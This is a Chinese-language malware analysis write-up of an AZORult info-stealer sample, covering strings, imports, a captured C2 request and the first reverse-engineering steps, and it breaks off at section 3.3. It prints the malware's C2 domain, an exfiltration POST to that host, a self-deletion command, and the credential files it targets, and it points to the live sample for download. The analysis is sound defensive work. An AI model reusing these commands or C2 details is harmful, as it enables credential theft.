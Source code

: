 # 一个azorult样本分析

## 0. 前言

根据百度，azorult是一种信息窃取的恶意软件。

该样本来自[ANY.RUN](https://app.any.run/tasks/b9ac50cb-2737-4270-be47-63a8f1b6352e/#)，标签有`trojan`、`rat`、`azorult`，文件名`unommbZo.exe`，md5: `4e1e1e459fef0e525f79f5747fa2f69a`。样本可直接在附件下载`unommbZo.bin.zip`，解压密码为`infected`。

## 1. 基本静态分析

### 1.1 PEiD结果

![image-20200918111338217](./img/unom-peid.png)

所以程序使用Delphi开发的，里面可能存在base64编码。

### 1.2 包含的字符串

经PEid检测，样本未加壳，使用`strings`工具查看其包含的字符串：

```bash
2C5A87CB-758C-7293-47BC-475C65D699A584C5-7DC6-DC45-12A47C7DB587-F89F-78CD-96CA-FD478543C7F4		# 不知道是什么，看起来很可疑的样子
SOFTWARE\Borland\Delphi\RTL
SOFTWARE\Microsoft\Windows NT\CurrentVersion
SOFTWARE\Microsoft\Cryptography
Software\Martin Prikryl\WinSCP 2\Sessions\		# 注册表？
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/	# base64编码
%APPDATA%\.purple\accounts.xml
%TEMP%\curbuf.dat
https://dotbit.me/a/
http://ip-api.com/json		
kirill0v.beget.tech			# 可疑的网址
/c %WINDIR%\system32\timeout.exe 3 & del "		# 执行的命令
User-agent: 
Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)		# 硬编码的请求头
PasswordsList.txt		# 文件名
```

除了上面的这些结果外，字符串输出中还包含一些进行了base64编码的变量名、注册表信息，目前还不知道有什么用。除此之外，还包含带有通配符的文件名，这里不再一一列举。

### 1.3 导入函数信息

```bash
ReleaseDC	GetSystemMetrics	GetDC		# 获取屏幕信息，截图？
GetComputerNameW	GetUserNameW			# 收集系统信息
FindFirstFileW	FindNextFileW	CreateFileW	CopyFileW		# 文件操作
GetTickCount	QueryPerformanceCounter		# 反调试？
Process32FirstW	Process32NextW	CreateProcessW		# 进程操作
RegCreateKeyExW	RegQueryValueExW	RegCloseKey	RegOpenKeyExW	# 注册表操作
CryptAcquireContextA	CryptCreateHash	CryptHashData
CryptGetHashParam	CryptDestroyHash	CryptReleaseContext		# 加密操作
ShellExecuteExW		# 命令执行
wsock32.dll		wininet.dll		# 网络操作
```



除了上面的两项信息之外，从PEView中查看该样本的`IMAGE_OPTIONAL_HEADER`，可以看出样本是一个Windows GUI程序。

## 2. 基本动态分析

一开始我用`ApateDNS`和`Inetsim`搭建了一个虚拟的网络环境，然后用`Wireshark`抓包，火绒剑进行监控，可以发现样本做了一些信息收集和联网操作，但是因为无法从C2服务器上获得进一步信息，所以我对于样本的分析也不完整。最后我为虚拟机设置了一个桥接的网卡，直接连接外网，想看一下样本和服务器的通信情况。

### 2.1 火绒剑输出

下面是有关注册表的一些操作，样本查询了大量的注册表值，这里应该是在收集信息：

![image-20200918193231447](./img/unom-huorong1.png)

还可以看到`svchost.exe`进程也打开了`unommbZo`进程：

![image-20200918193723288](./img/unom-huorong2.png)

以及联网操作：

![image-20200918194258739](./img/unom-huorong3.png)

可以看到样本和`kirill0v.beget.tech/index.php`建立 了连接，接下来看一下联网操作发送了什么内容。

### 2.2 Wireshark抓包

![image-20200918103038801](./img/unom-wireshark.png)

上图是抓包结果，完整的请求如下：

```
POST /index.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0b; Windows NT 5.1)
Host: kirill0v.beget.tech
Content-Length: 91
Cache-Control: no-cache

...E..&f.&f.F..0l.1..0f.0a.0f.&f.F..0c.1..0l.0e.&f.B..&f.&g.E..@..Ap.;p.G..&f.Fp.3p.;p.6p.5
```

明文看不出什么信息，所以可能进行了编码或者加密。

遗憾的是，连接已经关闭了：

![image-20200918194436627](./img/unom-wireshark2.png)

所以我最终是从ANY.RUN上把C2服务器返回的内容下载了下来，你可以从附件获取该内容`index.php.zip`，解压密码为`infected`。

## 3. 详细分析

### 3.1 主函数

先把服务器的响应放到一边，看一下样本的详细内容。由于这个样本是用Delphi编译的，因此`IDA`的分析效果不是特别好，同时使用`IDR`和`Ollydbg`协助分析。

将样本导入`IDA`后，发现入口点的`start`函数中，在`InitExe`和`Halt0`之间，只调用了一个函数`sub_419108`，这应该就是主函数了，重命名为`main_function`，然后双击进入该函数。

![image-20200918104904807](./img/unom-ida1.png)

下图显示了`main_function`的前半部分，基本覆盖了从样本开始执行到接收从C2服务器发过来的响应这一部分内容，本文就分析这一段内容。

![image-20200918201306881](./img/unom-ida2.png)

### 3.2 sub_407D24

第一个样本内函数调用已经进行了重命名，为`load_kernel32`。直接看下一个函数`sub_407D24`，该函数内调用了三次`sub_407B78`，在OD中分析该函数：

![image-20200918203307295](./img/unom-od1.png)

之后，该函数还调用了`CheckTokenMembership`和`FreeSid`，它在检查用户权限。

除了调用三次`sub_407B78`外，该函数还调用了一次`sub_407C58`，这两个函数的结构类似，只不过后者检查的是系统权限：

![image-20200918204040432](./img/unom-od2.png)

所以得到了函数`sub_407D24`的完成流程为：

![image-20200918204240225](./img/unom-ida4.png)

### 3.3 sub_406C4C

